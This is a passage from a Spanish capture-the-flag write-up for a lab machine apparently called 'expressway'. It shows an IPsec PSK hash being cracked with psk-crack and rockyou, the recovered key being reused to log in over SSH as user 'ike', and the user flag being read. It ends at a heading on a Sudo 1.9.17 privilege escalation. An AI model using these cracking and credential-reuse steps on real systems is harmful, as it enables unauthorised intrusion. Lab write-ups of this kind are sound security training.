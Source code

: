 ```bash
Ending ike-scan 1.9.6: 1 hosts scanned in 0.085 seconds (11.77 hosts/sec).  1 returned handshake; 0 returned notify
```
El nombre que use es **ike_psk.params** y se generó correctamente.

Ahora, para crackear ese hash, podemos utilizar la herramienta **psk-crack**, utilizando el modo diccionario para asignarle un wordlist que nos sirva para crackear la **PSK**:
```bash
psk-crack -d /usr/share/wordlists/rockyou.txt ike_psk.params
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "********************" matches SHA1 hash 0d141798ba758678596b6878f140d42fdb51dd20
Ending psk-crack: 8045040 iterations in 12.824 seconds (627361.61 iterations/sec)
```
Tenemos la contraseña.

Podríamos intentar configurar un **cliente IPsec** como **StrongSwan** para establecer la **VPN/SA** y ver si podemos obtener acceso a la red interna.

Para ello tendríamos que crear/modificar 2 archivos llamados **ipsec.conf** e **ipsec.secret**, con datos del **protocolo IKE**. 

El problema es que necesitaremos credenciales de **XAUTH** que no tenemos.

Algo que si tenemos, es un usuario llamado **ike**, por lo que quizá este usuario exista en la máquina víctima. Además, podemos probar la contraseña del **PKS** por si este usuario la utiliza:
```bash
ssh ike@10.10.11.87
ike@10.10.11.87's password: 
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
...
Last login: Fri Sep 26 20:44:17 2025
ike@expressway:~$ whoami
ike
```
Excelente, estamos dentro.

Aquí podemos encontrar la flag del usuario:
```bash
ike@expressway:~$ ls
user.txt
ike@expressway:~$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="sudo">Explotando Vulnerabilidad de la Versión 1.9.17 de Sudo para Escalar Privilegios</h2>
